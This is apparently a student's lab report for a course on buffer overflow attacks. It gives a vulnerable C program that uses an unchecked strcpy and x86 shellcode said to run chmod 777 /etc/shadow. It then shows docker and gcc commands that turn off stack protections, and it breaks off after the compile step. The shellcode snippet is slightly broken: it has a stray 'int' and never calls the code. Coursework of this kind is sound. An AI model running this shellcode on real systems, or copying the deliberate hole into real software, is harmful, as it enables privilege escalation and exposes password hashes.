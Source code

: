 # Lab #1,22110007, Nguyen Nhat An, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
## 1. Run docker machine and map folder into docker
```
docker run -it --privileged -v "C:/Users/Win 10/Seclabs:/home/seed/seclabs" img4lab
```
![image](https://github.com/user-attachments/assets/4b5050d4-fe2c-4cc8-874d-8ecd00e8d368)
## 2. Compile vuln.c and shellcode.c
* Compile vuln.c
  ```
  gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
  ```
* Compile shellcode.c
  ```
  gcc -g shellcode.c -o shellcode -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
  ```
  ![image](https://github.com/user-attachments/assets/6c529c5c-4f6f-4b2a-a518-6ddcbd9646bd)
  